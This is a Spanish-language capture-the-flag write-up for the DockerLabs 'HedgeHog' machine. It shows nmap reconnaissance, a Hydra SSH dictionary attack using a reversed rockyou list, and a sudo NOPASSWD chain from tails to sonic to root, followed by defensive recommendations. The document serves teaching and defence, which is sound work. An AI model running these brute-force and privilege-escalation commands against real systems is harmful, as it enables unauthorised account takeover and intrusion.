# HedgeHog - DockerLabs

> Laboratorio realizado en entorno local/controlado con fines educativos.  
> No usar estos comandos contra sistemas, redes o servicios reales sin autorización expresa.

## Objetivo

Resolver la máquina **HedgeHog** de DockerLabs siguiendo un proceso ordenado:

1. Levantar la máquina vulnerable.
2. Identificar puertos abiertos con Nmap.
3. Localizar una pista web que revela el usuario `tails`.
4. Preparar `rockyou.txt` y generar un diccionario invertido con `tac`.
5. Realizar un ataque controlado con Hydra contra SSH.
6. Acceder como `tails`.
7. Revisar permisos `sudo`.
8. Pivotar de `tails` a `sonic`.
9. Escalar de `sonic` a `root`.
10. Crear evidencia final.

## Información de la práctica

| Campo | Valor |
|---|---|
| Plataforma | DockerLabs |
| Máquina | HedgeHog |
| Entorno | Local / Docker |
| IP de ejemplo | `172.17.0.2` |
| Servicios principales | SSH y HTTP |
| Usuario inicial | `tails` |
| Contraseña encontrada | `3117548331` |
| Movimiento lateral | `tails -> sonic` |
| Escalada final | `sonic -> root` |
| Técnica clave | Mala configuración de sudo |

> La IP puede cambiar en cada despliegue. Sustituye `172.17.0.2` por la IP que muestre tu terminal.

## 1. Despliegue de la máquina

Nos situamos en la carpeta de la máquina y ejecutamos el script de DockerLabs.

```bash
cd ~/Desktop/Laboratorio/hedgehog
ls
sudo bash auto_deploy.sh hedgehog.tar
```



## 2. Comprobación de conectividad

Verificamos que la máquina responde.

```bash
ping -c 4 172.17.0.2
```



## 3. Reconocimiento con Nmap

Escaneamos todos los puertos TCP y detectamos servicios.

```bash
nmap -p- -sC -sV --open -sS -n -Pn 172.17.0.2
```

Resultado relevante:

| Puerto | Servicio | Interpretación |
|---|---|---|
| `22/tcp` | SSH / OpenSSH | Posible acceso remoto con credenciales. |
| `80/tcp` | HTTP / Apache | Servicio web con pista inicial. |



## 4. Pista web

Al revisar el servicio HTTP, la web muestra una pista simple: `tails`. Se toma como posible usuario del sistema.

```bash
curl http://172.17.0.2
curl -I http://172.17.0.2
```

Conclusión de esta fase:

| Dato | Interpretación |
|---|---|
| `tails` | Posible usuario válido. |
| SSH abierto | Vector de acceso si se consigue contraseña. |

## 5. Preparación del diccionario

Comprobamos que `rockyou.txt` está disponible.

```bash
ls /usr/share/wordlists/rockyou.txt
```



La clave de esta máquina es que la contraseña está muy al final de `rockyou.txt`, por lo que se genera una versión invertida.

```bash
tac /usr/share/wordlists/rockyou.txt > rockyou_reversed.txt
sed -i 's/ //g' rockyou_reversed.txt
ls -la
```



## 6. Ataque de diccionario controlado con Hydra

Ejecutamos Hydra contra SSH usando el usuario `tails` y el diccionario invertido.

```bash
hydra -l tails -P rockyou_reversed.txt ssh://172.17.0.2 -t 64
```

> Si el servicio SSH se satura, reducir hilos a `-t 16` o `-t 4`.

Hydra encuentra una credencial válida en el laboratorio.



Credenciales obtenidas:

| Usuario | Contraseña | Servicio |
|---|---|---|
| `tails` | `3117548331` | SSH |

## 7. Acceso inicial por SSH

Accedemos como `tails` y comprobamos el contexto.

```bash
ssh tails@172.17.0.2
whoami
id
hostname
pwd
ls -la
```



## 8. Enumeración de sudo como tails

Revisamos permisos sudo.

```bash
cat /etc/passwd | grep bash
sudo -l
```

El resultado indica que `tails` puede ejecutar comandos como `sonic` sin contraseña.

```text
(sonic) NOPASSWD: ALL
```



## 9. Pivoting de tails a sonic

Abrimos una shell como `sonic`.

```bash
sudo -u sonic /bin/bash
whoami
id
pwd
```



## 10. Escalada final de sonic a root

Desde `sonic`, volvemos a revisar permisos y abrimos una shell como root.

```bash
sudo -l
sudo -u root /bin/bash
whoami
id
hostname
```



## 11. Evidencia final

Creamos una evidencia de la práctica.

```bash
echo "Practica HedgeHog completada" > evidencia_hedgehog.txt
cat evidencia_hedgehog.txt
whoami
id
```



## Problemas frecuentes

| Problema | Causa probable | Solución |
|---|---|---|
| Hydra tarda demasiado | Contraseña situada al final de rockyou | Usar `tac` para invertir el diccionario. |
| SSH se satura | Demasiados hilos en Hydra | Bajar a `-t 16` o `-t 4`. |
| No se puede pivotar a sonic | Permisos sudo distintos o comando mal escrito | Revisar `sudo -l`. |
| No aparece root | No se ejecutó la shell como root | Revisar el usuario con `whoami` e `id`. |

## Medidas defensivas

- No exponer nombres de usuario en páginas web.
- Usar contraseñas robustas y no presentes en diccionarios públicos.
- Limitar intentos fallidos de SSH.
- Revisar reglas `sudoers` y evitar `NOPASSWD: ALL`.
- Aplicar el principio de mínimo privilegio.
- Monitorizar autenticaciones y cambios de usuario.

## Resumen final

La máquina se resuelve a partir de una pista web que revela el usuario `tails`. Tras obtener credenciales mediante Hydra, la escalada se basa en una cadena de permisos `sudo` inseguros: `tails -> sonic -> root`.
